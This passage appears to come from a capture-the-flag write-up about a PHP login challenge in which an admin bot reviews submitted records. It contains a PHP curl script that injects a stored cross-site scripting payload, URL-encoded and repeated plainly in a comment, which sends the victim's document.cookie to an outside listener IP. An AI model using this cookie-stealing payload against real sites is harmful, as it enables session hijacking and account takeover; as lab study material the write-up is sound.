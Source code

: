 The register.php is just a page mentioning that the registration is disabled. The login.php contains a username and password field. We tried a few injection techniques but nothing works, but we noted that there is a `PHPSESSID` cookie that is used to authenticate the user. 

![](Images/38.png)

On the data.php page, we noticed that the admin visits the records. With that in mind, perhaps we can steal the admin's `PHPSESSID` to bypass the login page?

![](Images/39.png)

We set-up an AWS server as a listener to listen for the cookie when the admin access the website. We then inject the cookie stealing Javascript payload via the POST parameter.

```php
<?php

$ch=curl_init();
curl_setopt($ch,CURLOPT_URL,"http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926/xcvlosxgbtfcofovywbxdawregjbzqta.php");
curl_setopt($ch,CURLOPT_POST,1);
curl_setopt($ch,CURLOPT_POSTFIELDS,"14c4b06b824ec593239362517f538b29=%3Cscript%3Evar%20i%3Dnew%20Image%3Bi.src%3D%22http%3A%2F%2F54.169.35.112%3A8000%2F%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E%0A%3Cscript%3Evar%20i%3Dnew%20Image%3Bi.src%3D%22http%3A%2F%2F54.169.35.112%3A1234%2F%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E");
//<script>var i=new Image;i.src="http://54.169.35.112:1234/?cookie="+document.cookie;</script>
$server_output=curl_exec($ch);

```